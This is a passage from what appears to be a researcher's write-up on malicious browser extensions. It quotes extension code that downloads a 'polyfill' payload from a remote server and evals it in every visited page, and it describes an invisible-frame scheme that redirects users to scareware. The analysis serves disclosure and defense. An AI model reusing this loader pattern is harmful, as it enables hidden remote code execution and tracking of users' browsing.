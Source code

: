 ```js
chrome.storage.local.get("polyfill", ({polyfill}) => {
	document.documentElement.setAttribute("data-polyfill", polyfill);
	let elem = document.createElement("script");
	elem.src = chrome.runtime.getURL("js/browser-polyfill.js");
	elem.onload = () => {
    document.documentElement.removeChild(elem)
  };
	document.documentElement.appendChild(elem);
});
```

And what does that “polyfill” script do? It runs the “polyfill” code:

```js
const job = document.documentElement.getAttribute("data-polyfill");
document.documentElement.removeAttribute("data-polyfill");
job && eval(job);
```

So where does this “polyfill” code come from? The extension downloads it from `https://polyfilljs.org/browser-polyfill`.

For me, this download produces only an empty object. Presumably, it will only give out the malicious script to people who have been using the extension for a while. And that script will be injected into each and every website visited then.

## Ad injection

Finally, there is the “Flappy Bird New Tab” extension. Its content script will inject an invisible frame pointing to `https://object.center/medium` into every web page. The code calls it `prefsFrame` but it is very obvious that this isn’t about preferences.

Instead, the page loaded in the frame contains some mildly obfuscated code checking `document.referrer`. It contains a list of almost 500 websites. If one such website is recognized, the frame redirects itself to `https://shor.link/s/r/` or `https://staticxev.com/s/s/`. And then you are for example confronted with these scary warnings:

{{< img src="scareware.png" width="809" alt="A red pop-up titled “Security Alert. You’ve visited illegal infected website.” The text says: “You have visited unsafe site with illegal content. Your PC is at risk of being infected by viruses. To continue browsing safely - perform an antivirus scan.” There is a green button below labeled “Scan.”" />}}

The good news: after displaying a number of supposed “threats” this sends you to the real Avira website. So this is only about scaring you into getting an antivirus subscription and collecting commission, not about getting you to install malicious software.

Also, with the malicious code here running inside a frame, it cannot affect the websites you are visiting. The server can still see which websites you browse however.

I couldn’t find any other extension with the same code. User reports indicate that there definitely used to be some in the past however, mostly pretending to be YouTube downloaders.
